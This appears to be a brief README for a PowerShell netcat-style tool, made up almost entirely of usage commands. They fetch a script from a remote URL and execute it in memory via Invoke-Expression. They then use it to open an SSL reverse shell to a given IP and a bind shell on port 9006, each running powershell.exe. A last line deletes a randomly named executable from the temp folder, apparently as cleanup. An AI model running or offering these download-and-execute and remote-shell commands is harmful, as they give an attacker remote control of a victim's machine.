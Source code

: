 # PowerShell-Ncat (nc/netcat)

# Usage - Reverse Shell

Invoke-Expression(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/whitej3rry/PowerShell-Ncat/master/Invoke-Ncat.ps1')

Invoke-Ncat -ArgumentList "192.168.100.10 -v -ssl -e powershell.exe"

# Usage - Bind Shell
Invoke-Expression(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/whitej3rry/PowerShell-Ncat/master/Invoke-Ncat.ps1')

Invoke-Ncat -ArgumentList "-l 9006 -v -ssl -e powershell.exe"

# Remove Environment Variable

PS> Remove-Item $env:temp\tIaSTpEXB.exe
